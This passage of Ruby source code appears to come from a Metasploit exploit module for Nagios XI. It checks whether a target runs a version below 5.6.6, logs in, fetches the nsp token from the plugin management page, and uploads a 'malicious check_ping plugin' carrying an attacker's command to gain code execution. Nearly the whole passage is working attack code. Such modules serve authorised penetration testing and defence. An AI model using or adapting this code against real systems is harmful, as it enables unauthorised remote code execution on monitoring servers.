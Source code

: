         print_good('Successfully authenticated to Nagios XI')

        # Obtain the Nagios XI version
        @auth_cookies = res_array[1] # if we are here, this cannot be nil since the mixin checks for that already

        nagios_version = nagios_xi_version(res_array[0])
        if nagios_version.nil?
          return CheckCode::Detected('Unable to obtain the Nagios XI version from the dashboard')
        end

        print_status("Target is Nagios XI with version #{nagios_version}")
        # check if the target is actually vulnerable
        @version = Rex::Version.new(nagios_version)
        if @version < Rex::Version.new('5.6.6')
          return CheckCode::Appears
        end

        return CheckCode::Safe
      end

      def grab_plugins_nsp
        # visit the plugins page to grab the nsp token required for uploading the payload
        res = send_request_cgi({
          'uri' => @monitoring_plugins_url,
          'method' => 'GET',
          'cookie' => @auth_cookies
        })

        unless res
          fail_with(Failure::Disconnected, "Connection failed while trying to visit `#{@monitoring_plugins_url}`")
        end

        unless res.code == 200 && res.body.include?('<title>Manage Plugins · Nagios XI</title>')
          fail_with(Failure::UnexpectedReply, "Unexpected response received while trying to visit `#{@monitoring_plugins_url}`")
        end

        @nsp = get_nsp(res)

        if @nsp.blank?
          fail_with(Failure::Unknown, 'Failed to obtain the nsp token required to upload the payload')
        end
      end

      def execute_command(cmd, _opts = {})
        print_status("Uploading malicious 'check_ping' plugin...")
        post_data = Rex::MIME::Message.new
        post_data.add_part(Rex::Text.rand_text_numeric(8), nil, nil, 'form-data; name="upload"')
        post_data.add_part(@nsp, nil, nil, 'form-data; name="nsp"')
        post_data.add_part(Rex::Text.rand_text_numeric(8), nil, nil, 'form-data; name="MAX_FILE_SIZE"')
        post_data.add_part(cmd, 'text/plain', nil, 'form-data; name="uploadedfile"; filename="check_ping"')
